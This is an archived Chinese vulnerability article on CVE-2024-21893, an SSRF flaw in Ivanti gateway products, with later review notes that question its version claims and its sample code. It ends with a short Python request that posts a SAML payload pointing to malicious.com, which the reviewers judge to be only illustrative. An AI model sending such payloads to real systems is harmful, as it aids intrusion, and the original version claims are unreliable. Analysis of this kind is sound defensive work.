



#  CVE-2024-21893影响Ivanti产品   

## 2026-10-03 公开验证资料补充

本页旧脚本使用通用 `/saml` 路径和 `AuthnRequest`，不能据此确认它能触发本 CVE。[固定公开模板](https://github.com/projectdiscovery/nuclei-templates/blob/9e93c63782dbb2b6160e068710d6240f418a3ed6/http/cves/2024/CVE-2024-21893.yaml) 提供不同的、产品特定的验证输入：POST `/dana-ws/saml20.ws`，SOAP 内含 XML 签名 `KeyInfo/RetrievalMethod`，其 URI 指向回连地址。该模板的判据包括 DNS 回连以及响应中的 Ivanti 页面标识。DNS 回连只能支持服务器解析了外部地址，不能独立证明可读任意内部资源或已执行命令。

[CNA](https://cveawg.mitre.org/api/cve/CVE-2024-21893) 记录 ICS 9.1R18/22.6R2、IPS 9.1R18/22.6R1 的影响边界；Neurons for ZTA 出现在描述中，但记录没有可据以展开的完整版本矩阵。旧文“所有版本”不应保留为已核实结论。该 SSRF 与 CVE-2024-21887 命令注入可以构成链条，但本模板只验证 SSRF 条件，未执行任何链条。固定源码全文已读，图证及依赖未检查。


<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ivanti Connect/Policy Secure、Neurons ZTA
- 本文讨论：CVE-2024-21893
- 版本、权限与配置前提：SAML SSRF无认证；泛9.x/22.x和ZTA所有版本
- 资料类型：概述加疑似示意PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- /saml generic AuthnRequest示例无真实产品端点/响应证据，不能认定有效CVE PoC
- ZTA所有版本与已发补丁说法缺边界；无任何原始公告URL
- 临时严格验证SAML建议未给可实施配置

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 真实触发请求/版本及官方缓解待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

 云梦安全   2024-06-14 09:33  
  
CVE-2024-21893漏洞在Ivanti Connect Secure、Ivanti Policy Secure及Ivanti Neurons for ZTA产品中的一个严重服务器端请求伪造（SSRF）漏洞。该漏洞允许攻击者在无需认证的情况下，访问某些受限资源。  
#### 漏洞概述  
  
CVE-2024-21893是Ivanti产品中的一个服务器端请求伪造（SSRF）漏洞，主要影响以下版本：  
- **Ivanti Connect Secure**：版本 9.x 和 22.x  
  
- **Ivanti Policy Secure**：版本 9.x 和 22.x  
  
- **Ivanti Neurons for ZTA**：所有版本  
  
该漏洞存在于SAML组件中，攻击者可以通过发送特制的请求，利用该漏洞在无需认证的情况下访问系统内的受限资源。  
#### 漏洞详情  
  
服务器端请求伪造（SSRF）漏洞允许攻击者通过受害服务器向内部或外部网络发起恶意请求，从而访问或操作本应受限的资源。在此漏洞中，Ivanti产品的SAML组件未能正确验证传入的SAML请求，导致攻击者能够发送特制的SAML请求以访问受限资源。  
#### 影响范围  
  
受到该漏洞影响的Ivanti产品包括但不限于：  
- Ivanti Connect Secure 9.x和22.x版本  
  
- Ivanti Policy Secure 9.x和22.x版本  
  
- Ivanti Neurons for ZTA所有版本  
  
这些产品广泛应用于企业和组织的网络安全防护中，任何未及时修补漏洞的系统都可能面临攻击风险。  
#### 防护措施  
1. **及时更新**：Ivanti已经发布了相关的安全补丁，用户应立即更新到最新版本以修补该漏洞。请参阅Ivanti的官方公告和更新指南获取详细的更新步骤。  
  
1. **配置调整**：在应用补丁前，可临时通过限制SAML请求的来源IP和严格验证SAML请求来降低风险。  
  
1. **监控和检测**：实施全面的日志监控和流量分析，检测异常的SAML请求活动，及时发现和响应可能的攻击。  
  
#### 漏洞利用示例  
  
  
  
  
  
  
```
import requests
from urllib.parse import urlparse

def send_ssrf_poc(target_url):
    payload = """<samlp:AuthnRequest xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" AssertionConsumerServiceURL="http://malicious.com/">
                    <saml:Issuer xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">http://vulnerable.com</saml:Issuer>
                 </samlp:AuthnRequest>"""
    
    headers = {
        "Content-Type": "text/xml",
        "User-Agent": "Mozilla/5.0"
    }
    
    response = requests.post(target_url, data=payload, headers=headers, verify=False)
    print(f"Sent PoC to {target_url}, response status: {response.status_code}")

target_url = "http://target.com/saml"
send_ssrf_poc(target_url)
```  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
